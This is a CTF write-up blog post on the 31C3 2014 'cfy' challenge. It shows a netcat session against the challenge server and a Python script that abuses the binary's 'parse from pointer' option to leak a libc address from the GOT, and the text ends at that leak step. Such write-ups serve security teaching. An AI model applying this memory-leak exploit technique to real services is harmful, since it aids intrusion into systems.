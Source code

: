 ```yaml
---
layout: post
title: "31C3 CTF 2014 CFY"
date: 2014-12-29 08:30:33 -0500
author: [barrebas]
comments: true
categories: [31c3]
---
```


### Solved by barrebas

Let's have a look at 31C3's `cfy`. We're given the binary and a place to connect to. Upon connecting with `nc`, we see the following:

```bash
bas@tritonal:~/tmp/31c3$ nc 188.40.18.73 3313
What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
```

With option 2, we have an arbitrary read ability, but we have to pass in the pointer in raw hex. This allows us to leak `libc` address from the got:

```python
#!/usr/bin/python

import struct 
import time
import socket
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('188.40.18.73', 3313))


def p(x):
    return struct.pack("L", x)

addr = 0x601020

payload = ""
payload += "2\n"
payload += p(addr)  # printf
payload += "\n"

print s.recv(1000)
s.send(payload)
time.sleep(0.5)
print s.recv(1000)
```
